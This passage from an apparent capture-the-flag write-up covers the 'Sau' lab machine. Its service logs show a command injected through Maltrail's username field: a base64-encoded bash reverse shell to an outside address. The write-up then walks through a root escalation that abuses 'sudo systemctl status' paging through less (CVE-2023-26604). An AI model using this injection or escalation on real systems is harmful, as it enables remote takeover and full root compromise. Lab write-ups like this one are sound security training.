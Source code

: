 ```bash
             ├─1170 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed password for ;`echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTEvNDQ0NCAwPiYxICAK | base64 -d | bash` from 127.0.0.1 port 54686"
             ├─1171 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed password for ;`echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTEvNDQ0NCAwPiYxICAK | base64 -d | bash` from 127.0.0.1 port 54686"
             ├─1174 bash
             └─1175 bash -i

Oct 01 11:50:01 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
Oct 01 12:30:39 sau maltrail[1153]: Failed password for None from 127.0.0.1 port 51726
Oct 01 12:31:45 sau maltrail[1166]: Failed password for ;uid=1001(puma) gid=1001(puma) groups=1001(puma) from 127.0.0.1 port 57082
```

I was able to check the status of the Maltrail service. Which showed me that my `id` command had run, but not much else. I looked for ways to exploit this. [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo) had something, but it required changing an environment variable. I could not.

I looked for vulnerabilities in running status. I found [a recent one](https://nvd.nist.gov/vuln/detail/CVE-2023-26604). It mentioned how `less` could be used when the terminal is too small to display the output. It would be executed as root in those cases. I knew that `less` could be used to run commands. 

I made my terminal smaller and gave it a try. The output was displayed with `less`. I typed `!bash` to launch bash as root and read the flag.

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2023-10-01 11:50:01 UTC; 56min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 881 (python3)
      Tasks: 6 (limit: 4662)
     Memory: 18.5M
     CGroup: /system.slice/trail.service
             ├─ 881 /usr/bin/python3 server.py
             ├─1170 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed password for ;`echo YmFzaCAgLWkgPiYgL2Rldi9>
             ├─1171 /bin/sh -c logger -p auth.info -t "maltrail[881]" "Failed password for ;`echo YmFzaCAgLWkgPiYgL2Rldi9>
             ├─1174 bash
             └─1175 bash -i

Oct 01 11:50:01 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
Oct 01 12:30:39 sau maltrail[1153]: Failed password for None from 127.0.0.1 port 51726
Oct 01 12:31:45 sau maltrail[1166]: Failed password for ;uid=1001(puma) gid=1001(puma) groups=1001(puma) from 127.0.0.1 p>
!bash

root@sau:/home/puma# cat /root/root.txt
REDACTED
```